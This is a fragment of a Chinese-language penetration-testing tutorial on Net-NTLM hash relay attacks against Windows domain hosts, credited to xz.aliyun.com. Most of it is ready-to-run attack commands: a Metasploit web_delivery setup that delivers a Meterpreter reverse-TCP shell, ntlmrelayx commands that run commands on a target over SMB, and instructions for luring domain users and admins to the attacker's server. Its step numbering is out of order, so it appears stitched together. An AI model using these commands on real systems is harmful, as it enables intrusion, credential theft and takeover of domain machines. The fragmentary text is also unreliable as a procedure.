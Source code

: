 ```
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
run
```

Step 3：启动impacket的ntlmrelayx模块

```
./ntlmrelayx.py -t ip -c "xxxxxxxxx" -smb2support

```

```
python3 ./ntlmrelayx.py -t smb://192.168.188.4 -c whoami -smb2support
```

Step 2：诱导普通域用户或者域管理员用户访问攻击机上搭建的HTTP或SMB服务

Step 3：在攻击主机上可以Relay域用户的Net-NTLM Hash，从而在域内其他主机上执行指定的命令

### 文末小结

Net-NTLM Hash攻击是一个拿域内主机的方法，在横向移动中利用还是挺不错的，可以直接控制域内主机，包括但不限于在远程服务器上执行命令、上传exe到远程主机上执行、dump服务器的用户hash等

```
来源:https://xz.aliyun.com/t/13124
```
